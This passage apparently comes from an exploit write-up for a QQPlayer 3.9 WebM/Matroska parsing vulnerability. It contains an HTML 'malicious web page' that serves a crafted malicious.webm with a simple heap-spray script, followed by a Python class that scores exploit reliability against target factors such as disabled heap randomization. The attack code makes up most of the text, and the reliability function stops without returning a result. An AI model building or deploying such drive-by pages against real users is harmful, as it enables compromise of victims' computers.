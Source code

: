 **Web-Based Attack:**
```html
<!-- Malicious web page -->
<!DOCTYPE html>
<html>
<head>
    <title>QQPlayer WebM Exploit</title>
</head>
<body>
    <h1>Video Player Demo</h1>
    <video controls>
        <source src="malicious.webm" type="video/webm">
        Your browser does not support the video tag.
    </video>
    
    <script>
        // Additional JavaScript for environment preparation
        function prepareExploit() {
            // Heap spray preparation if needed
            var chunks = [];
            for (var i = 0; i < 100; i++) {
                chunks[i] = new Array(1000).join("A");
            }
            return chunks;
        }
        
        window.onload = function() {
            var spray = prepareExploit();
            console.log("Environment prepared");
        };
    </script>
</body>
</html>
```

### Exploit Reliability Factors

```python
class ExploitReliability:
    def __init__(self):
        self.success_factors = {
            'heap_layout': 'Matroska multi-track spray effectiveness',
            'timing': 'Parser processing order consistency',
            'target_version': 'QQPlayer 3.9 specific vulnerability',
            'file_size': 'Balance between spray and detection',
            'track_count': 'Optimal number for reliable overflow'
        }
    
    def assess_reliability(self, target_env):
        """Assess exploit reliability for target environment"""
        score = 0
        
        if target_env['qqplayer_version'] == '3.9':
            score += 40  # Primary target version
            
        if target_env['heap_randomization'] == 'disabled':
            score += 30  # Predictable heap layout
            
        if target_env['file_size_limit'] > 1000000:  # 1MB+
            score += 20  # Sufficient space for spray
            
        if target_env['track_support'] == 'enabled':
            score += 10  # Multi-track processing
            
```